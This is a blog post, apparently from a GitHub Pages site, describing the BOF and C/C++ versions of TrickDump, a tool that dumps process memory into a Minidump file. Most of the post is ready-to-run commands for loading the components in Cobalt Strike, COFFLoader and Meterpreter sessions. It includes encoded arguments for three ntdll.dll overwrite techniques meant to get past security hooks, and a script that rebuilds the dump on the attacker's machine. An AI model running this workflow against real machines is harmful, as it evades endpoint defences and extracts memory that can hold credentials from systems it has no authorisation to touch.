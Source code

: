 ```yaml
---
layout: post
title: TrickDump update - BOF File and C/C++ ports
excerpt_separator: <!--more-->
---
```


Updating TrickDump and creating a BOF File.

<!--more-->


# # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

First import the aggressor scripts:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

Each BOF file has one optional input argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
trick <OVERWRITE_TECHNIQUE>
```

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

Finally generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE]
```

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each BOF file with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)


--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the "bofloader" module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
execute_bof trick_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)


--------------------------

<br>
<br>

# TrickDump - "c-flavour" branch

This branch implements the same functionality as the main branch but using C/C++.

```
Lock.exe [disk/knowndlls/debugproc]
```

```
Shock.exe [disk/knowndlls/debugproc]
```

```
Barrel.exe [disk/knowndlls/debugproc]
```

You can execute the programs directly without overwriting the ntdll.dll library:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_C1.png)

Or use one of the three different overwrite techniques ("disk", "knowndlls" or "debugproc"):

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_C2.png)

Then use the *create_dump.py* script to generate the Minidump file in the attack system:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE]
```

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_C3.png)


-------------------------

## All in one

If you prefer to execute only one binary, Trick.exe generates a ZIP file containing the 3 JSON files and the ZIP file with the memory regions:

```
Trick.exe [disk/knowndlls/debugproc]
```

It creates the ZIP file locally, optionally using a ntdll.dll overwrite method:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_C4.png)

With a ZIP file like this, unzip it and create the Minidump file using *create_dump.py*:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_7.png)
